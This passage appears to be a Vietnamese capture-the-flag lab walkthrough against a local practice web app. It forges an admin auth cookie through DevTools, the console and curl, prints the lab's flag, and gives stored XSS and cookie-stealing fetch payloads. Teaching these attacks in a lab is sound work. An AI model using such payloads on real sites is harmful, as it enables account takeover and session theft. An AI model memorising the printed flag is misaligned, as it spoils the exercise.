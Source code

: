 1. Trong DevTools, double-click vào giá trị cookie `auth`
2. Sửa thành: `admin:admin123`
3. Refresh trang (F5)

**Kết quả:** Đăng nhập với tài khoản admin!

#### Cách 2: Sử dụng JavaScript Console

Mở Console trong DevTools và chạy:

```javascript
document.cookie = "auth=admin:admin123; path=/";
location.reload();
```

#### Cách 3: Sử dụng curl

```bash
curl -H "Cookie: auth=admin:admin123" http://localhost:3000/lab/auth
```

### Bước 5: Lấy FLAG 🚩

Sau khi đăng nhập với admin:

-   Xem bảng tin
-   Tìm comment từ admin (background vàng)
-   FLAG sẽ ở trong comment của admin

**FLAG:** `FLAG{4uth_Byp4ss_C00k13_H4ck}`

## 🎯 Kỹ thuật Nâng cao: Stored XSS + Session Hijacking

### Bước 6: Stored XSS Attack

**Mục tiêu:** Chèn script vào comment để tấn công những người xem sau

1. Đăng nhập với user1
2. Post comment với payload XSS:

```html
<script>
    alert(document.cookie);
</script>
```

3. Khi admin (hoặc user khác) vào xem comment → Script thực thi!

### Bước 7: Session Hijacking (Đánh cắp Cookie)

**Payload để đánh cắp cookie:**

```html
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
```
